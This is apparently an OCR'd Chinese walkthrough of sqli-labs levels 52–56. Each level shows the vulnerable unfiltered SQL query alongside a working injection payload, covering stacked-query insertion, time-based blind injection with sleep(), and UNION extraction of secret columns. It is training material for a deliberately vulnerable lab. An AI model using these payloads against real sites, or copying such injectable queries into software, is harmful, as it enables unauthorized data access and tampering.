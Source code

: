 ### 52、堆叠注入 [ ]

```mysql
# SQL语句
SELECT * FROM users ORDER BY $id;
# 过滤语句
无
# Payload
?sort=1;insert into users values(666,'qwer','qwer')
```

### 53、时间盲注 [ ' ]

```mysql
# SQL语句
SELECT * FROM users ORDER BY '$id';
# 过滤语句
无
# Payload
?sort=1'and if((database()='security'),sleep(5),1)--+
```

### 54、联合查询 [ ' ]

```mysql
# SQL语句
SELECT * FROM security.users WHERE id='$id' LIMIT 0,1;
# 过滤语句
无
# Payload
?id=-1' union select 1,2,group_concat(secret_T9KT) from kwdhafmq5d --+
```

### 55、联合查询 [ ) ]

```mysql
# SQL语句
SELECT * FROM security.users WHERE id=($id) LIMIT 0,1;
# 过滤语句
无
# Payload
?id=-1) union select 1,2,group_concat(secret_ZTCI) from mpf1jj7jjp --+
```

### 56、联合查询 [ ') ]

```mysql
# SQL语句
SELECT * FROM security.users WHERE id=('$id') LIMIT 0,1;
# 过滤语句
无
# Payload
?id=0') union select 1,2,database() --+
```
